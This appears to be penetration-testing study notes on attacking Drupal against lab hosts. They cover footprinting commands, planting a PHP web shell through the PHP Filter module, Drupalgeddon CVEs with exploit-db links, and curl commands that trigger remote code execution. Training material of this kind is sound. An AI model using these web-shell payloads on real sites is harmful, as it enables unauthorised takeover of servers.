 # Drupal

## **Introduction**

> * Drupal is Written in PHP, supports MySQL or PostgreSQL for the backend. SQLite can be used if there's no DBMS installed.
> * Drupal indexes its content using nodes.
> * A node can hold anything such as a blog post, poll, article, etc.
> * The page URIs are usually of the form `/node/<nodeid>`

***

## **Drupal Discovery/Footprinting**

| Command                                                   | Description                               |
| --------------------------------------------------------- | ----------------------------------------- |
| \`curl -s http://drupal.inlanefreight.local               | grep Drupal\`                             |
| Browse to http://drupal.inlanefreight.local/CHANGELOG.txt | Check for istances of Drupal              |
| Browse to http://drupal.inlanefreight.local/README.txt    | Check for istances of Drupal              |
| Browse to http://drupal.inlanefreight.local/robots.txt    | Check for istances of Drupal or its nodes |

***

## **Attacking Drupal versions prior to version 8 \[PHP Filter Module]**

> * In Drupal versions prior to 8, it's possible to login as an admin to enable the PHP Filter Module
> * The PHP Filter Module basically allows PHP code to **always** be executed

**Follow these steps:**

1. After enabling the module, navigate to Content → Basic Page
2. Add the following RCE payload: `<?phpsystem($_GET['cmd']); ?>`
3. Note: toggle `text format` → `php code` in the options below
4. Gain RCE: `curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id \| grep uid \| cut -f4 -d">"`

***

## **Attacking Drupal version after version 8 \[PHP Filter Module]**

**Follow these steps:**

1. Download the PHP Filter Module: `wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz`
2. Once downloaded go to Administration → Reports → Available updates\`.
3. Click on Browse → Select the file → Install.
4. Follow the same steps as described above (same as drupal version prior to 8)

***

## **Drupalgeddon \[Drupal RCE Vulnerabilities]**

> Over the years, Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed Drupalgeddon.

| CVE                            | Versions                         | Description                                                                                                         |
| ------------------------------ | -------------------------------- | ------------------------------------------------------------------------------------------------------------------- |
| CVE-2014-3704 \[Drupalgeddon]  | versions 7.0 up to 7.31          | Pre-authenticated SQL injection that could be used to upload a malicious form or create a new admin user            |
| CVE-2018-7600 \[Drupalgeddon2] | versions prior to 7.58 and 8.5.1 | Insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected |
| CVE-2018-7602 \[Drupalgeddon3] | versions 7.x and 8.x             | This **authenticated** flaw exploits improper validation in the Form API                                            |

### **Proof of Concept to exploit these vulnerabilities:**

1. Drupalgeddon: [https://www.exploit-db.com/exploits/34992](https://www.exploit-db.com/exploits/34992) or `exploit/multi/http/drupal_drupageddon` Metasploit module
2. Drupalgeddon2: [https://www.exploit-db.com/exploits/44448](https://www.exploit-db.com/exploits/44448)\
   Usage:
   * Run the PoC without edits to check if the vulnerability exists
   * To gain RCE, first encode the PHP payload: `echo '<?php system($_GET[cmd]);?>' | base64`
   * Edit the `echo line in the PoC` as follows: `echo "BASE64OUTPUT" | base64 -d | tee shell.php`
   * Run the script: `python3 drupalgeddon2.py`
   * Gain RCE: `curl http://drupal-dev.inlanefreight.local/shell.php?cmd=id`
3. Drupalgeddon3: [https://github.com/rithchard/Drupalgeddon3](https://github.com/rithchard/Drupalgeddon3) or [https://www.exploit-db.com/exploits/44557/](https://www.exploit-db.com/exploits/44557/)
